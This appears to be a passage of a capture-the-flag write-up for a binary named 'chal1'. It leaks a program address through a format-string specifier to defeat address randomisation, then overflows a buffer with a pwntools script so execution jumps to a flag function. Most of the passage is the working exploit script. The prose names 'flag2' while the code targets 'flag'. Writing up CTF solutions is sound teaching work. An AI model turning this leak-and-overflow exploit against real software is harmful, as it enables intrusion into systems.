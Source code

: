 We can use an offset format to go select a value that we are actually interested about (`11` is a program address and `10` a stack address).

![Leak Offset](images/leak_offset.png)

We have all the gadgets we need to jump to the `flag2` function.

```py
import pwn

elf = pwn.context.binary = pwn.ELF("chal1")

def main() -> None:
    sess = pwn.process([elf.path])

    sess.sendline(b"3")
    sess.sendline(b"1")

    sess.recvuntil(b"DOWN):")
    sess.sendline(b"%11$p~")

    address = int(sess.recvuntil(b"~").split(b" ")[-1][:-1].decode(), 16)
    elf.address = address - 0x20c7

    sess.sendline(b"n")

    sess.sendline(b"57005")
    sess.sendline(b"bubbles1")

    sess.recvuntil(b"!")

    payload = pwn.cyclic(66) + pwn.pack(elf.symbols["flag"])

    sess.sendline(payload)

    sess.interactive()

if __name__ == "__main__":
    main()
```
